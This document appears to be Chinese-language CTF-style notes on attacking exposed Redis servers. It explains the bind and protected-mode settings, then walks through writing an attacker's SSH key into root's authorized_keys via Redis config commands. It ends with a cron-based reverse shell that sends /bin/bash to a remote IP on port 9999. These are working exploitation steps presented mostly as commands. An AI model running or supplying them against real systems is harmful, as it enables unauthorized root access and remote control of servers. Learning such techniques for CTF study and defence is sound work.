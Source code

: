 ```bash
查看版本信息
127.0.0.1:6379> info
清空所有Redis数据库的所有key 慎用
127.0.0.1:6379> flushall
设置Redis本地存储的文件夹和文件名
127.0.0.1:6379> config set dir [PATH]
127.0.0.1:6379> config set dbfilename [FILENAME]
将当前Redis实例所有数据快照以RDB文件的形式保存到硬盘
127.0.0.1:6379> save

```

Redis.config简单配置了解

- `bind IP1 IP2 ...`

  bind表示本机可以接受连接的网卡地址；只有通过bind里面配置的IP才访问到Redis服务

- `protected-mode [no|yes]`

  设置protected-mode no此时外部网络可以直接访问；开启保护模式需配置bind IP或者设置访问密码

首先目标机

```bash
# bind 127.0.0.1
protected-mode no
需要允许除本地外的主机远程连接redis服务
sudo redis-server /etc/redis.conf
```

攻击机

```bash
root@kali:~# ssh-keygen -t rsa

root@kali:~/.ssh# cat id_rsa.pub

root@kali:~/.ssh# redis-cli -h ip

ip:6379> config set dir /root/.ssh
ip:6379> config set dbfilename authorized_keys
ip:6379> set x "\n\n\nxxxxxxx\n\n\n"         # \n换行，不然SSH连接会失败 x为id_rsa_pub内容
ip:6379> save


root@kali:~/.ssh# ssh -i id_rsa root@ip
```

也可以结合frp内网渗透,具体看moectf里的压轴

#### redis反弹shell

```bash
ip:6379> set x "\n* * * * * /bin/bash -i > /dev/tcp/107.172.141.31/9999 0<&1 2>&1\n"
ip:6379> config set dir /var/spool/cron/
ip:6379> config set dbfilename root
ip:6379> save
```

